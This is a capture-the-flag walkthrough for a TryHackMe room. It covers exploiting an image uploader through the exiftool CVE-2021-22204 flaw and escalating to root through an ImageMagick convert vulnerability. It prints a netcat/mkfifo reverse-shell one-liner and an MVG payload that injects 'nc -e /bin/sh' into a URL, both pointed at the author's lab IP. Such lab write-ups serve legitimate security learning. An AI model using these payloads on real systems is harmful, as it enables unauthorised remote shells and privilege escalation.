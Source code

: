 ```yaml
---
title: MystikoCTF - THM - Walkthrough
tags: web thm privesc
---
```


![photo_2021-02-10_22-58-30](https://user-images.githubusercontent.com/84577967/174065612-9a8249f1-005f-4ba3-a752-d4b1ed44df25.jpg){:.circle}

Date: 21<sup>st</sup> / 22<sup>nd</sup> November 2021

# Description

> This is my writeup for the recent ctf hosted by Mystiko, the CTF was hosted on TryHackMe and was too much fun, So I would like to thank the team for making this really challenging and also for the great machine.

- THM Link: [MystikoCTF2021](https://tryhackme.com/room/mystikoctf2021)

- Difficulty: <font size="3" color="orange">Medium</font>

I unfortunately didn't have much time for the whole CTF, but I ended up sharing the third position with `cryptonic007`.

# Enumeration

The CTF had 3 different webapps

> Only PIXEL, DEV01 and DEV02 are in scope for this CTF. Do NOT attack any other IP address or hostname.

So as a start and as usual we should run nmap:

```bash
> nmap -sC -sV 10.10.206.211 -vvv                                             
```
We got 2 opened ports 22 (SSH) and 8080 (Nginx WebServer)

Let's dig into the webserver

![2021-11-22_16-15-23](https://user-images.githubusercontent.com/84577967/174065713-a0a47901-3b89-4414-a30e-02d3615dbe00.png)


We have a kind of images uploader, I opened the source page to see if there is anything hidden as comments but there were nothing, and I also confirmed that its accepting only images.

![2021-11-22_16-17-33](https://user-images.githubusercontent.com/84577967/174065741-f3cc5bfc-daf1-47f3-a4fd-2d14d9f6805e.png)


I had to upload an image and go to burpsuite, to see what going on actually

![2021-11-22_16-21](https://user-images.githubusercontent.com/84577967/174065770-d9db02ce-0dc7-4446-b6f7-f514078ed2f4.png)


I tried to manipulate the file extension and also the Mime Type with multiple methods but nothing was working, but I eventually noticed something in the response

![2021-11-22_16-22](https://user-images.githubusercontent.com/84577967/174065788-51716dc6-0104-47b2-8582-22839af29029.png)


And that was a hidden HTML headings that has some output from the picture I uploaded (mime type,size,image size) and also was starting with a weird `10.61` that looks like a version number !

So I thought probably doing exiftool job, so I had to look for a recent vulnerability of exiftool `CVE-2021-22204` that I had never the chance to try it ... 

# Foothold

I tried multiple public cve's and I eventually ended up with a working one

https://github.com/bilkoh/POC-CVE-2021-22204

Using this command line I was able create the evil picture

![2021-11-22_16-52-54](https://user-images.githubusercontent.com/84577967/174065814-033ab445-5963-42a8-bed3-5bb71f6a41a4.png)


So the picture will download a file `shell.sh` from my attacking webserver and run it

`shell.sh` : 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.2.95.202 9009 >/tmp/f
```

Let's upload the file 

![2021-11-21_13-29-19](https://user-images.githubusercontent.com/84577967/174065844-908a9f8d-be3d-4845-9b52-38593cb0fe39.png)


So after I set my listener and I uploaded the file I succeeded in getting a reverse shell 

![2021-11-22_16-56-09](https://user-images.githubusercontent.com/84577967/174065877-995382ea-7c6f-4bcb-999e-2fcc57128155.png)


Getting the first flag `local.txt` was pretty easy, the flag was in the home directory of our current user `pixel` and I was able to read it without any restrictions.

![2021-11-21_13-29-07](https://user-images.githubusercontent.com/84577967/174065895-f63a0342-78b3-413c-afe6-74034df064a5.png)


# Privilege Escalation

The first thing I ever do is typing `sudo -l`, to check if there is any commands I can execute with sudo.

![2021-11-21_13-30-34](https://user-images.githubusercontent.com/84577967/174065911-af8a4420-9d19-4ab2-8f98-74feca2b3ed2.png)


Great ! we have a binary named pixel I copied the binary to my machine for some reversing ...

![2021-11-21_13-31-02](https://user-images.githubusercontent.com/84577967/174065932-53d5f67c-92e4-4bf1-9ab0-20a30b8053ee.png)


I also opened it in ghidra, but nothing was too interesting

![2021-11-22_17-19-53](https://user-images.githubusercontent.com/84577967/174065960-2b860b8b-21c9-4215-8fc5-deff78ed1ef8.png)


Then I had to run the binary in my machine to see what this thing is doing actually ...

![2021-11-21_13-31-10](https://user-images.githubusercontent.com/84577967/174065988-93c4886a-cd16-42d4-ae09-18656dc04771.png)


Kind of an Image Toolkit created by `SIXER` team, I choosed to convert an image to a PDF file and see what will happen ...

![2021-11-21_13-32-36](https://user-images.githubusercontent.com/84577967/174066023-b2b56f4d-0d32-4cf4-b132-57be2cb43797.png)


The `Generating PDF` line show us that the binary is using another binary `/usr/local/bin/convert` to convert the image to a PDF file, and I recently just had an experience with the 2016's `convert` exploit, so I quickly go back the Pixel machine and check for the `convert` version

![2021-11-21_13-33-01](https://user-images.githubusercontent.com/84577967/174066040-8cc05195-ad7b-4a72-915a-ee83e6899263.png)


And yes ! the version was vulnerable, so by google `ImageMagick exploit` you will get a bunch of articles that explains this vulnerability and shows multiple ways to exploit it.

So I went with this steps:

1) Go to `/tmp/` directory.

1) Create a new file `exploit.mvg`:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|nc -e "/bin/sh" "10.2.95.202" "9009)'
pop graphic-context
```
![2021-11-21_13-27-19](https://user-images.githubusercontent.com/84577967/174066067-cb5331e8-00a6-48d7-a851-cbfd26c9fb04.png)


2) Set my listener on port 9009:

  ```
  nc -lvnp 9009
```
3) Run `sudo /usr/bin/pixel` and follow the steps as the image shows (instead of `x.jpg` enter `exploit.mvg`)

![2021-11-21_13-32-36](https://user-images.githubusercontent.com/84577967/174066087-18504f00-3749-4129-90cc-5ab238b6514e.png)


4) Going back to my listener to check if I got a reverse shell:

![2021-11-21_13-35-30](https://user-images.githubusercontent.com/84577967/174066111-a6238dc3-d7b7-48a8-8e7e-474ade679153.png)


And yes ! I was root and able to read the second flag `proof.txt`

![2021-11-22_17-34-28](https://user-images.githubusercontent.com/84577967/174066152-8befadde-2aea-4454-b8ca-e03a52150dc2.png)


---
Hope you enjoyed my writeup like I enjoyed playing the CTF.

Regards,
AB2.